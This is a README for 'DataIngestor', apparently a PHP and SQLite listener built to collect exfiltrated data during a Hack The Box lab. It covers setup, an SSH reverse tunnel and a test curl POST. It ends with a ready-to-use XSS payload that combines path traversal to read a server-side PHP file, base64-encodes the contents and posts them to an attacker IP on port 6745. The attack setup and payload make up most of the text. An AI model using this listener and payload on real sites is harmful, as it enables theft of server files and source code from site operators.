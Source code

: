 # DataIngestor

Create the database 
```console
cd 306d717c3f592af0186ed31e2f056a7d
sqlite3 data.db "CREATE TABLE entries (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    data TEXT NOT NULL,
    referrer TEXT,
    client_ip TEXT NOT NULL,
    entry_datetime DATETIME
);"
```

create a config.php file with:

```php

<?php

// Define the allowed CIDR range and IP addresses
$allowedCIDR = '19.12.0.0/16';
$allowedIPs = ['127.0.0.1']; //Add your ip to this array

?>
```

Run the php server
```console
php -S 0.0.0.0:6745 -t ./
```

Make the proxy conf on the remote server under /etc/nginx/conf.d/proxy.conf from proxy.conf.
if you want to work locally and forward your traffic through to another device

```console
ssh root@<remote-ip> -R 6745:127.0.0.1:6745
```

To send to the ingestor:

```console
curl -k -X POST -d "data=test" https://domain.com/
```

Send via xss:

```console
<img src=x onerror="fetch('/messages.php?file=../../../../../../../../var/www/statistics.alert.htb/index.php')
.then(response => response.text())
.then(data => {
f=document.createElement`form`;
f.innerHTML='<input name=data value='+btoa(data)+'>';
f.method='post';
f.action='http://10.10.14.159:6745/index.php';
document.body.appendChild(f);
f.submit();
document.body.removeChild(f);
});">
```
